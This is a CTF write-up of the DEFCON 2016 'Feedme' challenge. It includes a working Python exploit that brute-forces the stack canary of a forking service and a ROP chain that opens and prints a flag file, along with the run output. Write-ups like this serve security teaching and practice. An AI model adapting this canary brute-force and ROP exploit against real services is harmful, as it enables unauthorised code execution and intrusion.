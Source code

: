 ```yaml
---
layout: post
title: DEFCON CTF 2016 - Feedme
post_author: r00ta
excerpt_separator: <!--more-->
---
```


First at all execute `file` command on the binary

```bash
$ file feedme 
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

and with `checksec` we see that NX is enabled and debugging a little bit we realize that the usage of the binary is simple: a "parent" process launches child processes that takes 1 byte `x`, then reads `x` number of bytes. But the length of the buffer is 32, so if we send "\x36" + "A"*0x36 the canary is overwritten and smash the stack detected. 

So we have to leak the canary in order to overwrite the return address. The bug was that child's canary is always the same, so we can try to send 0x32 bytes of garbage and bruteforce the 33th byte (easy, always `\x00`), then the 34th, then the 35th and 36th one.

<!--more-->

This part of the exploit is 

```python 
#!/usr/bin/env python2

import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    data = ''
    while not data.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        data += tmp

    return data

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))
recvuntil("FEED ME!\n")
canary = "\x00"
while len(canary)!=4:
	for brute in range(0,255):
		#print brute
		init = binascii.unhexlify(hex(32+len(canary)+1)[2:])
		garbage = "A"*32
		
		if len(hex(brute)[2:])==1:
			pad = "0"
		else:
			pad = ""
		tryLeakByteCanary = binascii.unhexlify(pad + hex(brute)[2:])
		s.send(init + garbage + canary+ tryLeakByteCanary)
		data = recvuntil("FEED ME!\n")
		if "YUM" in data:
			print "LEAKED: "  + str(tryLeakByteCanary)
			print data
			canary += tryLeakByteCanary
			break
```

and then we write a ROPchain that reads `flag` string, open `flag` file and write its content to std output (we spent a lot of time trying to execve /bin/sh, we wrote custumized ROPchain also. Only after some hours we decided to follow this way. After solving the challenge we read on IRC "pwnables have busybox -> /bin/sh. Your execve shell code is probably broken" -> **** off!).

```python
p = ''
p += p32(0x080bb496) #pop eax
p += p32(0x3)#read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x5)#flag\x00
p += p32(0x080eaf80)#BSS address
p += p32(0x0)
p += p32(0x0806FA20) #int 80; ret


p += p32(0x080bb496) #pop eax
p += p32(0x5) #fopen
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x0)
p += p32(0x0)
p += p32(0x080eaf80) #address of flag string
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x3) #read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060) #.data address
p += p32(0x2) #FD
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x4) #write sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060)#address
p += p32(0x01) #FD
p += p32(0x0806FA20) #int 80; ret
``` 

PWN THEM!!

```python
init = binascii.unhexlify(hex(len(garbage + canary + "A"*12 + p))[2:])
s.send(init + garbage + canary + "A"*12  + p)
print recvuntil("...\n")
print "interactive "
s.send("flag\x00")
interactive()
```

```bash
$ python exploit.py feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me 4092
LEAKED: R
ATE 41414141414141414141414141414141...
YUM, got 34 bytes!
Child exit.
FEED ME!

LEAKED: 
ATE 41414141414141414141414141414141...
YUM, got 35 bytes!
Child exit.
FEED ME!

LEAKED: �
ATE 41414141414141414141414141414141...
YUM, got 36 bytes!
Child exit.
FEED ME!

CHECK len(canary): 4
�anary: R
PWN THEM!!

ATE 41414141414141414141414141414141...

interactive 
The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO
��������@�
         Child exit.
FEED ME!
```

Files for this challenge can be found [here]({{ site.github_tree }}/tree/master/files/defcon2016/feedme/).
